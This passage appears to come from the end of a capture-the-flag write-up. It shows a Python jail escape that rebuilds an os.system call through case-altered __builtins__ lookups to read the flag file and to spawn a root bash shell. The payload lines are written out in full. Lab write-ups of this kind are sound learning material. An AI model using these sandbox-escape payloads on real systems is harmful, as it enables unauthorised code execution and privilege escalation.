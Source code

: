 Searching on google on "how to escape python jail" took me to this [blog post](https://anee.me/escaping-python-jails-849c65cf306e) and i was able to read the root.txt file to get the flag.

![](attachments/20240329123159.png)

```python
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat file.txt')
```

![](attachments/20240329123322.png)

OR

We can spawn a bash shell `/bin/bash` as root:

![](attachments/20240329174343.png)

```python
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('/bin/bash') 
```

The End.

![](https://giffiles.alphacoders.com/132/13246.gif)